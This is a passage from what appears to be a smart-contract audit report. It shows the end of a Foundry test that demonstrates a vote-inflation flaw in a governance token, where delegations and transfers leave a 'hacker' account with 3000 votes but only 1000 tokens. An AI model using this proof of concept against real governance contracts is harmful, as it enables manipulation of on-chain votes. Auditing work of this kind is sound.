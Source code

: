 ```js
        // console.log("Bob's bakance: ", vToken.balanceOf(bob));
        vm.stopPrank();

        vm.startPrank(carl);
        vToken.delegate(hacker);
        console.log("Hacker's vote: ", vToken.getVotes(hacker));

        vToken.transfer(hacker, 1000);
        // console.log("Carl's bakance: ", vToken.balanceOf(carl));
        vm.stopPrank();

        console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

        hacker_vote = vToken.getVotes(hacker);
        console.log("Vote Count of Hacker after attack: %s ", hacker_vote);

        uint hacker_balance = vToken.balanceOf(hacker);
        console.log("Hacker's vToken after the attack: %s ", hacker_balance);

        assertEq(hacker_vote, 3000);
        assertEq(hacker_balance, 1000);
    }
}

```


![](assets/voting_m2.png)